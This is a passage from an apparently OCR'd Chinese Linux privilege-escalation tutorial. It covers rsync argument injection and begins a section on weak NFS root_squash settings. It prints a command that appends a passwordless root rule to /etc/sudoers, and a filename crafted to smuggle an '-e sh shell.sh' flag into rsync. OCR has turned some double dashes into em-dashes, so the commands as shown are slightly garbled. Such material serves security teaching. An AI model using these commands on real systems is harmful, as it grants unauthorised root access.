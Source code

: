 等待，直到cron执行了脚本并通过键入以下内容获得root特权：

sudo su

### rsync

Rsync是“快速，通用，远程（和本地）文件复制工具”，在linux系统上非常常见。

与rsync一起使用的一些有趣的标志是：

-e, —rsh=COMMAND           specify the remote shell to use     —rsync-path=PROGRAM    specify the rsync to run on remote machine

我们可以使用该-e标志来运行所需的任何Shell脚本。让我们创建一个shell脚本，它将我们添加到sudoers文件中：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > shell.sh

现在让我们注入将运行我们的shell脚本的标志：

touch — “-e sh shell.sh”

**0x0010 Linux提权-NFS权限弱**
-------------------------

如果您在linu服务器上具有低特权shell，并且发现服务器中具有NFS共享，则可以使用它来升级特权。但是成功取决于它的配置方式。

### 目录

1.  什么是NFS？
    
2.  什么是root_sqaush和no_root_sqaush？
    
3.  所需的工具和程序文件。
    
4.  利用NFS弱权限。
    

### 什么是NFS？

网络文件系统（**NFS**）是一个客户端/服务器应用程序，它使计算机用户可以查看和选择存储和更新远程计算机上的文件，就像它们位于用户自己的计算机上一样。在**NFS**协议是几个分布式文件系统标准，网络附加存储（NAS）之一。

